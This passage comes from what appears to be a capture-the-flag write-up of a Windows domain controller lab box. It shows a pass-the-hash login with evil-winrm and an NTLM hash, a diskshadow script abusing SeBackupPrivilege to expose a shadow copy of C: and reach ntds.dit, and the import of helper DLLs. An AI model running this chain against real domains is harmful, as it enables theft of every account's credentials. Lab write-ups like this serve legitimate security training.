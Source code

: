 Command:
`evil-winrm.rb -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d`

We get logged in and are able to get the `user.txt` flag. Now that we're in we start enumerating internally. We'll use the `upload` command in `Evil-WinRM` to put a copy of `winPEAS` on the machine and run it.

When we try to run it, it errors out and the file is removed. Assumably Windows Defender removed the file. Looks like we'll need to enumerate manually. The first command we issue is `whoami /all`. We see that this user has backup abilities and is part of the Backup Operators group. Here are two good resources on leveraging the `SeBackupPrivilege`, [one](https://decoder.cloud/2018/02/12/the-power-of-backup-operatos/) and [two](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf).

We can hopefully use `diskshadow` to run our script and get the `ntds.dit` file from the domain controller as shown on slide 23 of link two. 

First we create our malicous script as `script.txt`:

```
add volume c: alias mydrive9
create
expose %mydrive9% z:
```

Now we upload it via `Evil-WinRM`. Once uploaded we run `diskshadow` to call the script.

Command:
`diskshadow /s script.txt`

That didn't work. It looks like the commands are being truncated.

{{< figure src="__GHOST_URL__/content/images/2020/06/image-80.png" caption="" >}}

We modify the script, reupload and rerun. Another error. This time saying we needt o set a metadata writeable directory. In this case we can use the `NOWRITERS` option in our `SET` line, thanks [Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow).

Here's our finaly script:
```
set context persistent nowritersx
add volume c: alias mydrive9x
createx
expose %mydrive9% z:x
```

We rerun the command and it works!

{{< figure src="__GHOST_URL__/content/images/2020/06/image-81.png" >}}

So now that we have access to this copy of a the drive, how do we leverage it? Some googling around from our previous exploit lead us [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug). This GitHub repo has some .dll we can import and use. We upload them to our target and import them into our PowerShell session, [as shown](https://github.com/giuliano108/SeBackupPrivilege).

Command:
`import-module SeBackupPrivilegeUtils.dll`
`import-module SeBackupPrivilegeCmdLets.dll`
